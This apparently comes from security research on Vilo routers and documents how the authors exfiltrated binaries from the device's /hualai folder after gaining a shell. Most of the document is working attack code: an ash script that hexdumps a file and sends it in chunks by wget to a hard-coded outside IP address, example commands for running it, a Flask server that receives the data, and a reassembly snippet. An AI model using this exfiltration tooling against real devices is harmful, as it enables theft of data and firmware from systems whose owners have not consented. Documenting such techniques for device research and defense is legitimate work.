# Vilo File Exfiltration
Once a stable shell has been established on a Vilo router, exfiltrating large binary files is very difficult. This is likely not the best solution, but I will document what we did to exfiltrate binaries in the `/hualai` folder using only pre-existing binaries (very small storage space limits what utilities we can place on the box). Note that helpful utilities like `base64`, `curl`, or `scp` are not present. Also as far as we know, the BusyBox `wget` binary can only send GET requests to download files (please let us know if this is not the case).

Our solution involved using `hexdump` and `awk` to turn the binary into its hexadecimal representation, then using `wget` to send requests to a public server we control like `wget http://<IP>/upload/1?AAAAAAAA`. Since the URI limit is around 60,000 for Flask webservers, we split the content into a number of files and "uploaded" each one separately. The number after `/upload/` in the path represents the chunk number, and everything in the query string is the data. 

## Code
The code we used to send these `wget` requests is shown below:

```bash
#!/bin/ash
if [ "$#" -ne 1 ]; then
    echo "Usage: $0 <num_bytes>"
    exit 1
fi
num_bytes=$(expr "$1" \* 2)
i=1
bytes=0
while [ "$bytes" -lt "$num_bytes" ]; do
	filename="/tmp/exfil${i}"
	awk -v start="$bytes" '{print substr($0, start, 60000)}' exfilOut > "$filename"
	wget "http://128.199.4.110:5555/upload/${i}?$(cat $filename)"
	i=$(expr "$i" + 1)
    bytes=$(expr "$bytes" + 60000)
done
```

We used `echo` to put it into a file like so:

```bash
echo '#!/bin/ash
if [ "$#" -ne 1 ]; then
    echo "Usage: $0 <num_bytes>"
    exit 1
fi
num_bytes=$(expr "$1" \* 2)
i=1
bytes=0
while [ "$bytes" -lt "$num_bytes" ]; do
	filename="/tmp/exfil${i}"
	awk -v start="$bytes" '\''{print substr($0, start, 60000)}'\'' exfilOut > "$filename"
	wget "http://128.199.4.110:5555/upload/${i}?$(cat $filename)"
	i=$(expr "$i" + 1)
    bytes=$(expr "$bytes" + 60000)
done' > send.sh
```

To use it, run the file to be exfiltrated through `hexdump` and save the output as `exfilOut`. Then, run the script, passing in the size of the hexdump output as an argument.

For example:

```bash
# Hexdump the file as a continuous stream of hex bytes
hexdump -ve '1/1 "%.2x"' /hualai/hl_client | awk '{ printf $0 }' > /tmp/exfilOut
# Get the size of exfilOut in bytes
ls -l /tmp
# Run the script with the size as an argument
./send.sh 814752
```

The code for the public Flask server we used is shown below:

```python
from flask import Flask, request
app = Flask(__name__)


@app.route('/upload/<filename>', methods=['GET'])
def upload_file(filename):
    # Get the entire query string from the request
    query_string = request.query_string.decode('utf-8')

    # Write the query string to the file
    with open('out/'+filename, 'w') as f:
        f.write(query_string)

    return f"Query string written to file {filename}", 200

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5555, threaded=True)
```

Once the data was stored in the `out/` folder, we ran `cat out/* > out/all`, then ran the Python code below to turn it back into the binary:

```python
h = open('out/all').read()
with open('binary','wb') as f:
    f.write(bytes.fromhex(h))
```

We did find once that a random `C` had been inserted in the middle of our hex, forcing us to find which byte threw everything else off and removing it (no idea why it happened).